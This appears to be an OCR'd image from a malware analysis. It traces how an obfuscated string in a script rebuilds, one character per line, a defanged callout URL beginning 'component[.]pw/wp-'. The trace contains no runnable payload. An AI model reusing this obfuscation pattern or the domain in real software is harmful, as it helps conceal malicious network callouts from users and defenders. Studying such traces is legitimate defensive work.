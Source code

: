 ``` text
EsNDtISBBnaCXk=ht$CG$29888&$GH$57090&$EK$3388&$BT$55498&$IL$29507&$CR$10941&$U$21547&$GY$4902&$AE$53306&$BX$30413&$FG$27124&$BV$30953&$IM$56694&$EV$38328&$CF$15512&$EG$30041&$DZ$15836&$ET$32765&$CQ$47333&$HE$736&$V$24861&$DP$11026&$FA$21247&$CD$7333&$AK$10221&$HH$23769&$DK$39723&$BH$15533&$AC$35202&$CT$11282&$EY$36257
EsNDtISBBnaCXk=htt$GH$57090&$EK$3388&$BT$55498&$IL$29507&$CR$10941&$U$21547&$GY$4902&$AE$53306&$BX$30413&$FG$27124&$BV$30953&$IM$56694&$EV$38328&$CF$15512&$EG$30041&$DZ$15836&$ET$32765&$CQ$47333&$HE$736&$V$24861&$DP$11026&$FA$21247&$CD$7333&$AK$10221&$HH$23769&$DK$39723&$BH$15533&$AC$35202&$CT$11282&$EY$36257
EsNDtISBBnaCXk=http$EK$3388&$BT$55498&$IL$29507&$CR$10941&$U$21547&$GY$4902&$AE$53306&$BX$30413&$FG$27124&$BV$30953&$IM$56694&$EV$38328&$CF$15512&$EG$30041&$DZ$15836&$ET$32765&$CQ$47333&$HE$736&$V$24861&$DP$11026&$FA$21247&$CD$7333&$AK$10221&$HH$23769&$DK$39723&$BH$15533&$AC$35202&$CT$11282&$EY$36257
EsNDtISBBnaCXk=https$BT$55498&$IL$29507&$CR$10941&$U$21547&$GY$4902&$AE$53306&$BX$30413&$FG$27124&$BV$30953&$IM$56694&$EV$38328&$CF$15512&$EG$30041&$DZ$15836&$ET$32765&$CQ$47333&$HE$736&$V$24861&$DP$11026&$FA$21247&$CD$7333&$AK$10221&$HH$23769&$DK$39723&$BH$15533&$AC$35202&$CT$11282&$EY$36257
EsNDtISBBnaCXk=https:$IL$29507&$CR$10941&$U$21547&$GY$4902&$AE$53306&$BX$30413&$FG$27124&$BV$30953&$IM$56694&$EV$38328&$CF$15512&$EG$30041&$DZ$15836&$ET$32765&$CQ$47333&$HE$736&$V$24861&$DP$11026&$FA$21247&$CD$7333&$AK$10221&$HH$23769&$DK$39723&$BH$15533&$AC$35202&$CT$11282&$EY$36257
EsNDtISBBnaCXk=https:/$CR$10941&$U$21547&$GY$4902&$AE$53306&$BX$30413&$FG$27124&$BV$30953&$IM$56694&$EV$38328&$CF$15512&$EG$30041&$DZ$15836&$ET$32765&$CQ$47333&$HE$736&$V$24861&$DP$11026&$FA$21247&$CD$7333&$AK$10221&$HH$23769&$DK$39723&$BH$15533&$AC$35202&$CT$11282&$EY$36257
EsNDtISBBnaCXk=https ://$U$21547&$GY$4902&$AE$53306&$BX$30413&$FG$27124&$BV$30953&$IM$56694&$EV$38328&$CF$15512&$EG$30041&$DZ$15836&$ET$32765&$CQ$47333&$HE$736&$V$24861&$DP$11026&$FA$21247&$CD$7333&$AK$10221&$HH$23769&$DK$39723&$BH$15533&$AC$35202&$CT$11282&$EY$36257
EsNDtISBBnaCXk=https ://c$GY$4902&$AE$53306&$BX$30413&$FG$27124&$BV$30953&$IM$56694&$EV$38328&$CF$15512&$EG$30041&$DZ$15836&$ET$32765&$CQ$47333&$HE$736&$V$24861&$DP$11026&$FA$21247&$CD$7333&$AK$10221&$HH$23769&$DK$39723&$BH$15533&$AC$35202&$CT$11282&$EY$36257
EsNDtISBBnaCXk=https ://co$AE$53306&$BX$30413&$FG$27124&$BV$30953&$IM$56694&$EV$38328&$CF$15512&$EG$30041&$DZ$15836&$ET$32765&$CQ$47333&$HE$736&$V$24861&$DP$11026&$FA$21247&$CD$7333&$AK$10221&$HH$23769&$DK$39723&$BH$15533&$AC$35202&$CT$11282&$EY$36257
EsNDtISBBnaCXk=https ://com$BX$30413&$FG$27124&$BV$30953&$IM$56694&$EV$38328&$CF$15512&$EG$30041&$DZ$15836&$ET$32765&$CQ$47333&$HE$736&$V$24861&$DP$11026&$FA$21247&$CD$7333&$AK$10221&$HH$23769&$DK$39723&$BH$15533&$AC$35202&$CT$11282&$EY$36257
EsNDtISBBnaCXk=https ://comp$FG$27124&$BV$30953&$IM$56694&$EV$38328&$CF$15512&$EG$30041&$DZ$15836&$ET$32765&$CQ$47333&$HE$736&$V$24861&$DP$11026&$FA$21247&$CD$7333&$AK$10221&$HH$23769&$DK$39723&$BH$15533&$AC$35202&$CT$11282&$EY$36257
EsNDtISBBnaCXk=https ://compo$BV$30953&$IM$56694&$EV$38328&$CF$15512&$EG$30041&$DZ$15836&$ET$32765&$CQ$47333&$HE$736&$V$24861&$DP$11026&$FA$21247&$CD$7333&$AK$10221&$HH$23769&$DK$39723&$BH$15533&$AC$35202&$CT$11282&$EY$36257
EsNDtISBBnaCXk=https ://compon$IM$56694&$EV$38328&$CF$15512&$EG$30041&$DZ$15836&$ET$32765&$CQ$47333&$HE$736&$V$24861&$DP$11026&$FA$21247&$CD$7333&$AK$10221&$HH$23769&$DK$39723&$BH$15533&$AC$35202&$CT$11282&$EY$36257
EsNDtISBBnaCXk=https ://compone$EV$38328&$CF$15512&$EG$30041&$DZ$15836&$ET$32765&$CQ$47333&$HE$736&$V$24861&$DP$11026&$FA$21247&$CD$7333&$AK$10221&$HH$23769&$DK$39723&$BH$15533&$AC$35202&$CT$11282&$EY$36257
EsNDtISBBnaCXk=https ://componen$CF$15512&$EG$30041&$DZ$15836&$ET$32765&$CQ$47333&$HE$736&$V$24861&$DP$11026&$FA$21247&$CD$7333&$AK$10221&$HH$23769&$DK$39723&$BH$15533&$AC$35202&$CT$11282&$EY$36257
EsNDtISBBnaCXk=https ://component$EG$30041&$DZ$15836&$ET$32765&$CQ$47333&$HE$736&$V$24861&$DP$11026&$FA$21247&$CD$7333&$AK$10221&$HH$23769&$DK$39723&$BH$15533&$AC$35202&$CT$11282&$EY$36257
EsNDtISBBnaCXk=https ://component.$DZ$15836&$ET$32765&$CQ$47333&$HE$736&$V$24861&$DP$11026&$FA$21247&$CD$7333&$AK$10221&$HH$23769&$DK$39723&$BH$15533&$AC$35202&$CT$11282&$EY$36257
EsNDtISBBnaCXk=https ://component.p$ET$32765&$CQ$47333&$HE$736&$V$24861&$DP$11026&$FA$21247&$CD$7333&$AK$10221&$HH$23769&$DK$39723&$BH$15533&$AC$35202&$CT$11282&$EY$36257
EsNDtISBBnaCXk=https ://component[.]pw$CQ$47333&$HE$736&$V$24861&$DP$11026&$FA$21247&$CD$7333&$AK$10221&$HH$23769&$DK$39723&$BH$15533&$AC$35202&$CT$11282&$EY$36257
EsNDtISBBnaCXk=https ://component[.]pw/$HE$736&$V$24861&$DP$11026&$FA$21247&$CD$7333&$AK$10221&$HH$23769&$DK$39723&$BH$15533&$AC$35202&$CT$11282&$EY$36257
EsNDtISBBnaCXk=https ://component[.]pw/w$V$24861&$DP$11026&$FA$21247&$CD$7333&$AK$10221&$HH$23769&$DK$39723&$BH$15533&$AC$35202&$CT$11282&$EY$36257
EsNDtISBBnaCXk=https ://component[.]pw/wp$DP$11026&$FA$21247&$CD$7333&$AK$10221&$HH$23769&$DK$39723&$BH$15533&$AC$35202&$CT$11282&$EY$36257
EsNDtISBBnaCXk=https ://component[.]pw/wp-$FA$21247&$CD$7333&$AK$10221&$HH$23769&$DK$39723&$BH$15533&$AC$35202&$CT$11282&$EY$36257
```